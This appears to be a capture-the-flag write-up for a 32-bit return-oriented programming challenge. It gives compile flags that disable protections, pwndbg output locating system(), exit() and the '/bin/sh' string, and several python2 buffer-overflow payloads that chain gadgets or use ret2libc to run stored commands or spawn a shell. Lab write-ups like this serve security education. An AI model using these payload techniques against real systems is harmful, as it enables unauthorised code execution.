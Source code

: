 ### How to compile binary (disable ASLR):

`gcc roplevel2.c -o roplevel2 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> p exit
$1 = {<text variable, no debug info>} 0x8049060 <exit@plt>
pwndbg> p system
$2 = {<text variable, no debug info>} 0x8049050 <system@plt>
```

```
┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ strings -a -t x /usr/lib/i386-linux-gnu/libc-2.33.so | grep "/bin/sh"                                                                   
 18fb62 /bin/sh

┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ gdb-pwndbg roplevel2
Reading symbols from roplevel2...
(No debugging symbols found in roplevel2)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2 

Breakpoint 1, 0x080491f0 in main ()
...
...
...
pwndbg> info proc mappings
process 5091
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x8049000  0x804a000     0x1000     0x1000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804a000  0x804b000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804b000  0x804c000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	0xf7db9000 0xf7dd6000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7dd6000 0xf7f2e000   0x158000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7f2e000 0xf7fa1000    0x73000   0x175000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa1000 0xf7fa2000     0x1000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa2000 0xf7fa4000     0x2000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa4000 0xf7fa6000     0x2000   0x1ea000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa6000 0xf7fad000     0x7000        0x0 
	0xf7fc3000 0xf7fc5000     0x2000        0x0 
	0xf7fc5000 0xf7fc9000     0x4000        0x0 [vvar]
	0xf7fc9000 0xf7fcb000     0x2000        0x0 [vdso]
	0xf7fcb000 0xf7fcc000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fcc000 0xf7fee000    0x22000     0x1000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fee000 0xf7ffb000     0xd000    0x23000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffb000 0xf7ffd000     0x2000    0x2f000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffd000 0xf7ffe000     0x1000    0x31000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
pwndbg> x/s 0xf7db9000+0x18fb62
0xf7f48b62:	"/bin/sh"
```

```
pwndbg> find &system,+99999999,"/bin/sh"
warning: Unable to access 16007 bytes of target memory at 0x8049050, halting search.
Pattern not found.
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> c
The program is not being run.
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
...
...
...
pwndbg> find &system,+99999999,"/bin/sh"
0xf7f48b62
warning: Unable to access 16000 bytes of target memory at 0xf7faa5ea, halting search.
1 pattern found.
```

### Methodolody:

Find gadgets to return to a System Function

### Answer for original version (I think?):

Analysis things:

```
pwndbg>  x/s 0x804a024
0x804a024:	"# this does nothing..."
pwndbg> print &str1
$10 = (<data variable, no debug info> *) 0x804b3f8 <str1>
pwndbg> print &str2
$11 = (<data variable, no debug info> *) 0x804b404 <str2>
pwndbg> print &str3
$12 = (<data variable, no debug info> *) 0x804b414 <str3>
```

Actual Exploit:

```
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\xf8\xb3\x04\x08')" | ./roplevel2
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\x04\xb4\x04\x08')" | ./roplevel2
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\x14\xb4\x04\x08')" | ./roplevel2
```

- FINAL PADDING = INITIAL PADDING + EBX

- FINAL EXPLOIT = FINAL PADDING (AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7) + GADGET(0x080491da) + EXIT (GGGG) + ARGUMENT (str1[], str2[], str3[])

- Gadget is called first which pushes the current value of `ebx` to the top of the stack. When the gadget completes, it calls that function which is the SYSTEM function call which then looks at the top 2 values on stack for the exit address and the argument.

- 0xf7dfdd00 is the `system()` address

- 0x080491da is the gadget address

### Answer for shell version:

Using pure ret2libc:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\x00\xdd\xdf\xf7\x80\x06\xdf\xf7\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

- 0xf7dfdd00 is the `system()` address

- 0xf7df0680 is the `exit()` address

- 0xf7f48b62 is the `/bin/sh` address

Using gadget() function:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xda\x91\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

- 0x080491da is the gadget address

- 0xf7dfdd00 is the `system()` address

- 0x08049060 is the `exit()` address

- 0xf7f48b62 is the `/bin/sh` address

Using `ROPGadget --binary ./roplevel2-shellversion` (`0x080492c2 : sub al, 0x24 ; ret`):

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xc2\x92\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

- 0x080492c2 is the gadget address

- 0xf7dfdd00 is the `system()` address

- 0x08049060 is the `exit()` address

- 0xf7f48b62 is the `/bin/sh` address

### Notes:

Based on the design of this challenge, the gadget function is not suitable to solve the puzzle as x86 stores parameters to functions on the stack while Mach-O stores parameters to functions in lower registers. I have since edited the challenge to allow it to be exploitable on a Linux OS via the gadget function or finding gadgets within the binary itself as well :). Due to the nature of this exploit, you can even just use a generic ret2libc attack.

You can try to obtain a root shell via a buffer overflow but on analysis of this challenge, it seems that the author wants us to execute the commands stored in str1, str2, str3 via gadget() and the winner() function call. From the author source code, I modified it and created 2 versions of the binary: One that aims to execute the commands store in str1, str2 and str3; and the other aims to obtan a shell.

Over [here](https://icyphox.sh/blog/rop-on-arm/) is a walkthrough of someone attempting the challenge and achieving code execution instead of executing the various commands stored in str1, str2, str3 as the author intended. Still a good read though.

### References:

[PUSH and POP in ARM](https://developer.arm.com/documentation/dui0068/b/Thumb-Instruction-Reference/Thumb-memory-access-instructions/PUSH-and-POP)

[LDR in ARM](https://developer.arm.com/documentation/dui0041/c/Babbfdih#)
